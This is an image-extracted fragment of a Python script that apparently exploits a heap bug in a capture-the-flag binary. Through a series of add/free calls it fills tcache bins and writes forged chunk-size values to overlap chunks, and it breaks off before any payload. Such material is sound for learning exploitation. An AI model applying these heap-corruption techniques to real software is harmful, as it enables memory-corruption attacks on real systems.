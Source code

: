 ```python

    add(0x20)#9
    free(8)


    add(0x37)#8
    add(0x37)#10 x
    add(0x37)#11 x
    add(0x47)#12 x

    for i in range(7):
        free(i)

    free(11)
    free(10)
    add(0x20)#0
    
    add(0x1000,'l chunk')#2


    add(0x440,p8(0))#1
    add(0x1000,'l chunk')#3


    for i in range(7): #4,5,6,10, 11,13,14
        add(0x30)


    add(0x37,p64(0)+p8(0x10)) #15  x
    add(0x37,'5555555')#16 x

    free(16)
    free(8)

    add(0x37,p64(0x190)+p64(0x101)+p8(0x40))#
    add(0x37,p64(0)*6+p8(0)*6)#16
    free(4)
    free(5)
    free(6)
    free(10)
    free(11)
    free(13)
    free(14)
    free(16)
    free(8)

    for i in range(7):
        add(0x30)
    add(0x37,p8(0x10))
    add(0x37,p8(0x10))

    free(12)
    add(0x47,p64(0)*8+p8(0)*7)
    free(12)
    add(0x47,p64(0)*7+p64(0x10))

    for i in range(7): #17+23
        add(0x20)

    free(17)
    free(18)
    free(19)
    free(20)
```